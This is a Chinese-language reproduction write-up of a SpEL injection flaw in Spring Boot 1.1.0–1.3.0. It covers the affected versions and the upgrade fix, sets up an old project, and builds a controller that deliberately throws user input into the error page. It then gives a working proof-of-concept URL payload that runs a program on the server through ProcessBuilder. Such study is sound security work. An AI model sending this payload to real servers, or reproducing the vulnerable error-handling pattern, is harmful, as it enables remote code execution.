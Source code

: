 #### 前言

影响不算大的一个漏洞，但是对于学习SpEL注入还是很有价值的


#### 影响版本

1.1.0-1.1.12
1.2.0-1.2.7
1.3.0
修复方案：升至1.3.1或以上版本

#### 复现

复现版本：1.2.0

我采用IDEA这一IDE来搭建Spring Boot项目，通常，我们创建springboot项目可以直接用idea里提供的spring initializer功能，也可以直接去网站 https://start.spring.io/ 生成spring boot框架

![](assets/springinit.png)

但是上面两个方法搭建的环境只能是罪行的两个版本，而存在漏洞的版本比较老了，所以我采用idea构建maven工程的方式来使用老版本的spring boot，步骤如下

![](assets/maven.png)

点击next,在下一个页面填好你自己命名的groupid等，最后点击finish，然后修改pom文件，添加如下内容

```xml
<parent>
        <groupId>org.springframework.boot</groupId>
        <artifactId>spring-boot-starter-parent</artifactId>
        <version>1.2.0.RELEASE</version>
    </parent>
    <dependencies>
        <dependency>
            <groupId>org.springframework.boot</groupId>
            <artifactId>spring-boot-starter-web</artifactId>
        </dependency>
    </dependencies>
```

这样maven自动构建过程中就会帮助我们下载1.2.0版本的spring boot了。然后开始写主程序和控制器。

Main.java

```java
// Main.java
package com.axin;

import org.springframework.boot.SpringApplication;
import org.springframework.boot.autoconfigure.SpringBootApplication;

@SpringBootApplication
public class Main {
    public static void main(String[] args){
        SpringApplication.run(Main.class, args);
    }

}
```
Sample.java

```java
// Sample.java
package com.axin;

import org.springframework.stereotype.Controller;
import org.springframework.web.bind.annotation.RequestMapping;
import org.springframework.web.bind.annotation.ResponseBody;

@Controller
public class Sample {
    @RequestMapping("/")
    @ResponseBody
    public String hello(String payload){
        throw new IllegalStateException(payload);
    }
}

```

![](assets/code.png)

这个漏洞产生的比较关键的一点就是程序把用户的输入带入到报错页面。所以，可以看到Sample.java里构造了这么一个环境。

这个时候当我们发送如下payload:

`
http://localhost:8080/?payload=${new%20java.lang.ProcessBuilder(new%20java.lang.String(new%20byte[]{119,105,114,101,115,104,97,114,107})).start()}
`

就会执行wireshark

![](assets/poc.png)






